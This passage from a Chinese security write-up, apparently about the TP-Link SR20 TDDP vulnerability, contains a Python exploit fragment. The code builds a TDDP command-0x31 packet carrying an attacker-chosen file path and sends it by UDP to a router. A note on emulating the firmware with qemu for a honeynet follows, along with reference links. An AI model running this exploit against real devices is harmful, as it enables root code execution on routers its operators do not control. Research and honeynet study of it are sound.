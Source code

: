 ```python
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

#构造tddp协议头 关键为前两个字节 
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])



sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]   #构造下载文件路径
packet = packet + argument.encode()    
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)

```



**密网应用：**

可通过qemu-static 来进行固件启动模拟，进行交互。



参考链接

### [Remote code execution as root from the local network on TP-Link SR20 routers](https://mjg59.dreamwidth.org/51672.html)

1. [Remote code execution as root from the local network on TP-Link SR20 routers](https://mjg59.dreamwidth.org/51672.html)
2. [How to set up QEMU 3.0 on Ubuntu 18.04](https://www.reddit.com/r/VFIO/comments/9pi2cd/how_to_set_up_qemu_30_on_ubuntu_1804/)
3. [Vivotek 摄像头远程栈溢出漏洞分析及利用](https://paper.seebug.org/480/)
4. [一个针对TP-Link调试协议（TDDP）漏洞挖掘的故事](https://www.anquanke.com/post/id/84991)